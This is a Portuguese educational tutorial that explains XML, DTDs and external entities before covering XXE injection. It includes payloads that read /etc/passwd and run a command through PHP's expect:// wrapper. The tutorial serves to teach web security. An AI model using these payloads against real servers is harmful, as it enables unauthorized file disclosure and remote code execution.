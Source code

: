 # XML, DTD e XXE Injection

## O que é XXE Injection?

XXE (XML external entity) Injection é uma vulnerabilidade web que permite ao atacante se aproveitar do processamento de dados XMLs de uma aplicação de maneira maliciosa.

Dentre outros problemas, esse tipo de ataque pode levar o atacante à visualização de arquivos confidenciais e à interação com o backend da aplicação e até com sistemas externos, levando a possíveis SSRFs.

Mas antes de entender como funciona esse ataque, devemos entender o que é XML, DTDs e entidades.

## Explicando brevemente XML
XML significa E**x**tensible **M**arkup **L**anguage. Essa linguagem de marcação foi criada para armazenar e transportar dados, assim como o JSON. Por sinal, a popularidade do XML diminuiu devido ao JSON.

O XML utlizada _tags_ em uma estrutura de árvore, de forma similar ao HTML (tags uma dentro da outra e dados entre o ínicio e o fim das tags). Entretanto, o XML não tem _tags_ predefinidas, ou seja, a pessoa que está criando o XML pode definir suas próprias tags, como no exemplo abaixo:

``` XML
<?xml version="1.0" encoding="UTF-8"?>
<msg lang="pt-br" category="web">
    <from> Ganeshers </from>
    <to> All </to>
    <title> Exemplo para os bixos </title>
    <body> Esse é um exemplo de XML bem simples! </body>
</msg>
```

Para saber um pouco mais sobre XML, acesse a [w3schools](https://www.w3schools.com/xml/).

## DTD (Document Type Definition)
Como descrito acima, DTD significa "definição de tipo de documento" e ela contém declarações que definem a estrutura do XML, os tipos de dados que ele contém e mais. A DTD é opcional. Ela é declarada dentro de um elemento chamado `DOCTYPE` no começo do documento XML. Além disso, a DTD pode ser interna - ela é declarada dentro do documento XML - ou externa - ela é carregada de uma fonte externa.

Para exemplificar, uma XML com DTD segue esse padrão:
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doctype_name [ 
    <!ELEMENT elem1 (elem2, elem3)>
    <!ELEMENT elem2 (#PCDATA)>
    <!ELEMENT elem3 (#PCDATA)>
 ]>
 <elem1>
    <elem2> Dados do elem2, bom dia </elem2>
    <elem3> aaaa 1235125 pode haver qualquer coisa aqui </elem3>
</elem1>
```
_Obs.: PCDATA significa "Parsed Character Data" e representa um tipo de dado qualquer (não sei como explicar melhor, desculpa)

## Entidades XML
As _XML entities_ são uma forma de representar itens do documento XML sem usar seus dados diretamente. Pode-se pensar que essas entidades seriam como variáveis em uma linguagem de programação.

Essas entidades podem ser das especificações/padrões do XML, como  `&lt;` e `&gt;` (que representam `<` e `>`), ou podem ser costumizadas. As entidades customizadas são definidas dentro do DTD, como no exemplo a seguir.
``` XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE teste [ <!ENTITY texto_com_top "Top top" > ]>
<tag_generica> &lt;&texto_com_top;&gt; </tag_generica>
```
Nesse documento XML, `&texto_com_top;` seria substituido por`<Top top>`.

Com base nesse exemplo, nota-se que as entidades criadas devem ser referenciadas com `&` + `nome da entidade` + `;`. 

### Entidades internas
Como no exemplo anterior, as entidades internas são definidas no próprio documento XML, dentro do DTD do qual elas fazem parte, ou seja, não é necessário que o servidor que está processando o XML busque algum dado fora do documento.

### Entidades externas
Já esse tipo de entidade é caracterizado por conter uma definição que está fora do documento XML, ou seja, o resposável por processar o XML com uma entidade externa deverá buscar a definição da entidade fora do DTD. Esse tipo de entidade vem com a palavra-chave `SYSTEM` para indicar que ela é externa. Após o `SYSTEM`, há uma URL indicando de onde o valor deve ser carregado.

A entidade externa pode refenciar tanto servidores e serviços externos quanto o próprio servidor interno (usando o protocolo `file://`).
``` XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

## Voltando ao ataque
Agora que já foi explicado um pouco sobre XML, vamos entender um pouco sobre o ataque...

Esse tipo de Injection é possível em aplicações que usam XML para transmitir dados entre cliente (navegador) e servidor. O XML enviado para o servidor (backend) é "tratado" por um _parser_ (normalmente de alguma API ou biblioteca já existente) e muitas vezes esse tratamento é feito de forma indevida, permitindo que o dado enviado pelo cliente/atacante possa manipular o funcionamento do backend de forma maliciosa. Com exemplos, isso ficará mais claro...

### Exemplo 1: acessando arquivos do servidor
Como explicado anteriormente, as entidades externas presentes em documento XML podem buscar arquivos dentro do próprio servidor por meio do protocolo `file://`. Sendo assim, em certos casos no qual há vulnerabilidade no tratamento do XML, pode ser possível acessar arquivos como `/etc/passwd` por meio de um XXE Injection:
``` XML
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ELEMENT root ANY>
    <!ENTITY xxe SYSTEM 'file:///etc/passwd'>
]>
<root> &xxe; </root>
```

Caso o servidor retornasse o que está em `<root>` para ser exibido em um documento HTML, receberíamos o conteúdo de `/etc/passwd`.

### Exemplo 2: Execução de código remoto com PHP
Com um pouco de sorte, é possível que o servidor tenho o módulo (wrapper) `expect` carregado (por padrão ele não é), o que possivelmente permitirá execução de código a partir de um payload como o a seguir.
``` XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
    [<!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "expect://exec('ls -la')" >
]>
<creds>
  <user> &xxe; </user>
  <pass> 123 </pass>
</creds>
```

Além desse exemplos, há diversos outros possíveis ataques a partir dessa vulnerabilidade. Alguns links que podem ser interessantes para aprender um pouco mais sobre XXE Injection são:
- https://portswigger.net/web-security/xxe
- https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
